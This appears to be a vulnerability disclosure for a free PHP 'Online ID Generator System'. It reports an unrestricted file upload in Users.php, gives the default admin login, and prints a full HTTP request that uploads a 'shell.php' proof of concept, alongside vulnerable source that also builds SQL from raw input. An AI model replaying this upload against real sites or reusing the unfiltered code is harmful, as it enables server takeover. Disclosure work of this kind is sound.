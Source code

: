 # [Online ID Generator System-File upload vulnerabilities-Users.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/php/14917/online-id-generator-system-using-php-free-source-code.html

**[Affected Version]:** Online ID Generator System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"id_generator_db"**.

5. **Import** the provided **`SQL`** file. The file is known as **`id_generator_db.sql`** located inside the **database** folder.

6. **Browse** the **Online ID Generator System** in a **browser**. i.e. **`http://localhost/id_generator`**.

   **Admin Access Information:**

   Username: **admin**
   Password: **admin123**

## Bug Information

**[Vulnerability type]:** File upload vulnerabilities

**[Vulnerability Url]:** `http://localhost/id_generator/classes/Users.php?f=save`

**[Vulnerability Location]:** id_generator/classes/Users.php

**[Vulnerability Test]:**

1. First visit `http://localhost/id_generator/admin/?page=user`,  and upload a PHP file at the `Avatar` with the content `<?php phpinfo(); ? >`

   ![](../../img/20240623120558.png)

2. After clicking Update, get the packet as follows

   ```bash
   POST /id_generator/classes/Users.php?f=save HTTP/1.1
   Host: localhost
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
   Accept: */*
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   X-Requested-With: XMLHttpRequest
   Content-Type: multipart/form-data; boundary=---------------------------15587566078760376663013679191
   Content-Length: 834
   Origin: http://localhost
   Connection: close
   Referer: http://localhost/id_generator/admin/?page=user
   Cookie: Phpstorm-10d910bb=a6bc0397-210c-4145-96b8-e9aedf363376; PHPSESSID=c6ikif3reuhfclaa66bo04s2sj
   
   -----------------------------15587566078760376663013679191
   Content-Disposition: form-data; name="id"
   
   1
   -----------------------------15587566078760376663013679191
   Content-Disposition: form-data; name="firstname"
   
   Adminstrator
   -----------------------------15587566078760376663013679191
   Content-Disposition: form-data; name="lastname"
   
   Admin
   -----------------------------15587566078760376663013679191
   Content-Disposition: form-data; name="username"
   
   admin
   -----------------------------15587566078760376663013679191
   Content-Disposition: form-data; name="password"
   
   
   -----------------------------15587566078760376663013679191
   Content-Disposition: form-data; name="img"; filename="shell.php"
   Content-Type: application/octet-stream
   
   <?php phpinfo(); ?>
   -----------------------------15587566078760376663013679191--
   
   ```
   
   The response results are shown in the figure
   
   ![](../../img/20240623120503.png)
   
4. The file is successfully uploaded, and the path to the file just uploaded is displayed on this page.

   ![](../../img/20240623120713.png)

5. Visit `http://localhost/id_generator/uploads/1719115500_shell.php`

   ![](../../img/20240623120806.png)

**[code analysis]:**

in id_generator/classes/Users.php

```php
<?php
    require_once('../config.php');
Class Users extends DBConnection {
    private $settings;
    public function __construct(){
        global $_settings;
        $this->settings = $_settings;
        parent::__construct();
    }
    public function __destruct(){
        parent::__destruct();
    }
    public function save_users(){
        extract($_POST);
        $data = '';
        $chk = $this->conn->query("SELECT * FROM `users` where username ='{$username}' ".($id>0? " and id!= '{$id}' " : ""))->num_rows;
        if($chk > 0){
            return 3;
            exit;
        }
        foreach($_POST as $k => $v){
            if(!in_array($k,array('id','password'))){
                if(!empty($data)) $data .=" , ";
                $data .= " {$k} = '{$v}' ";
            }
        }
        if(!empty($password)){
            $password = md5($password);
            if(!empty($data)) $data .=" , ";
            $data .= " `password` = '{$password}' ";
        }

        if(isset($_FILES['img']) && $_FILES['img']['tmp_name'] != ''){
            $fname = 'uploads/'.strtotime(date('y-m-d H:i')).'_'.$_FILES['img']['name'];
            $move = move_uploaded_file($_FILES['img']['tmp_name'],'../'. $fname);
            if($move){
                $data .=" , avatar = '{$fname}' ";
                if(isset($_SESSION['userdata']['avatar']) && is_file('../'.$_SESSION['userdata']['avatar']) && $_SESSION['userdata']['id'] == $id)
                    unlink('../'.$_SESSION['userdata']['avatar']);
            }
        }
        if(empty($id)){
            $qry = $this->conn->query("INSERT INTO users set {$data}");
            if($qry){
                $this->settings->set_flashdata('success','User Details successfully saved.');
                return 1;
            }else{
                return 2;
            }

        }else{
            $qry = $this->conn->query("UPDATE users set $data where id = {$id}");
            if($qry){
                $this->settings->set_flashdata('success','User Details successfully updated.');
                foreach($_POST as $k => $v){
                    if($k != 'id'){
                        if(!empty($data)) $data .=" , ";
                        $this->settings->set_userdata($k,$v);
                    }
                }
                if(isset($fname) && isset($move))
                    $this->settings->set_userdata('avatar',$fname);

                return 1;
            }else{
                return "UPDATE users set $data where id = {$id}";
            }

        }
    } 

}

$users = new users();
$action = !isset($_GET['f']) ? 'none' : strtolower($_GET['f']);
switch ($action) {
    case 'save':
        echo $users->save_users();
        break;
    case 'fsave':
        echo $users->save_fusers();
        break;
    case 'ssave':
        echo $users->save_susers();
        break;
    case 'delete':
        echo $users->delete_users();
        break;
    default:
        // echo $sysset->index();
        break;
}
```

No filtering is done on uploaded filenames.
